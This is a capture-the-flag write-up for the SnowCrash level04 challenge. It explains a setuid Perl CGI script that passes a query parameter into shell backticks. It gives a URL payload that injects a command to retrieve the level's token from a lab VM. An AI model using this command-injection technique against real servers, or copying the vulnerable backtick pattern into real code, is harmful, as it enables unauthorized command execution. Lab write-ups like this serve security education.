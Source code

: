 # Level04

## Research
---------------

```bash
level04@SnowCrash:~$ ls -l
-rwsr-s-r-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
Again this setuid, that means this program can executes commands as flag04.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
We can see 2 things:

1. We can see that localhost:4747 is used, as well as CGI. 
`CGI stands for Common Gateway Interface, it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module we used [...] to code for the web.` <br/>
https://www.perl.com/article/perl-and-cgi/

2. The print uses \`\` (Backquotes), and any command put between backquotes will be executed.
https://www.tutorialspoint.com/unix/unix-quoting-mechanisms.htm

How to send a parameter to CGI?
`The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like https://example.com/?foo=bar. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables).`
https://www.perl.com/article/perl-and-cgi/



## Solution
---------------

- Steps:
  - Open a web browser and connect to the VM IP address on port 4747 (for example: http://10.0.2.15:4747/)
  - Use the query string to pass the getflag command:
  ``` bash
  http://192.168.1.67:4747/?x=getflag
  ```
  We need to send \`getflag\` so that it will be executed (try echo \`getflag\` in terminal for example). `getflag` as a parameter will only print getflag.
 
Here we can found the token.

